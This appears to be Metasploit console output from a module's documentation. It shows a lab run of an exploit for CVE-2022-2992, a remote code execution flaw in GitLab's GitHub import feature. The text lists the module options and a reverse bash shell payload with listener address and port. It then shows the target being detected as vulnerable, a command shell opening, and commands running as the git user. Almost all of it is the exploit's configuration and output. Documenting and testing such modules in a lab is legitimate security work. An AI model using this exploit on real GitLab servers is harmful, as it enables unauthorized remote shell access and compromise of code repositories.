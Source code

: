 ```
   TARGETURI     /                        yes       The base path to the gitlab application
   URIHOST       ext.msflab.local         no        Host to use in GitHub import URL
   URIPATH                                no        The URI to use for this exploit (default is random)
   USERNAME      smcintyre                yes       The username to authenticate as
   VHOST                                  no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > run

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected GitLab version 15.3.1 which is vulnerable.
[*] Using URL: http://ext.msflab.local:8088/
[*] Command shell session 1 opened (192.168.250.134:4444 -> 192.168.250.134:56794) at 2023-02-13 13:41:05 -0500
id
[*] Server stopped.

uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-rails/working
exit
[*] 192.168.159.128 - Command shell session 1 closed.
msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) >
```
